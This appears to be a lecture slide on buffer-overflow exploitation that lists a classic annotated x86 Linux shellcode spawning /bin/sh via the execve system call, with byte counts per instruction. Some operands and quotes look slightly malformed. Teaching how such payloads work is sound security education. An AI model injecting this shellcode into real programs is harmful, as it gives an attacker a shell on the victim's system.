

# The Shellcode
jmp 2ah            		# 2 bytes jumps 42 bytes forward to the call instr
pop esi            		# 1 byte  saves “/bin/sh” address in ESI
mov [esi+7],0 			# 4 bytes puts the ‘\0’ after “/bin/sh”
mov [esi+8],esi 		# 3 bytes addr of “/bin/sh” after “/bin/sh\0”
mov [esi+0ch],0 		# 7 bytes puts a zero word after “/bin/sh\0addr”
mov eax,0bh      		# 5 bytes syscall index for execve in EAX
mov ebx,esi      		# 2 bytes puts the address of “/bin/sh\0” in EBX
lea ecx,[esi+8] 		# 3 bytes puts the address of the argv in ECX
lea edx, [esi+ch] 		# 3 bytes puts the address NULL pointer (envp) in EDX
int 80h          		# 2 bytes calls execve
mov eax,1h 	     	# 5 bytes syscall index for exit in EAX
mov ebx,0h	     	# 5 bytes return value in EBX
int 80h          		# 2 bytes calls exit
call -2fh         		# 5 bytes (-47 bytes back)
.string \"/bin/sh\“  	# 8 bytes /bin/sh\0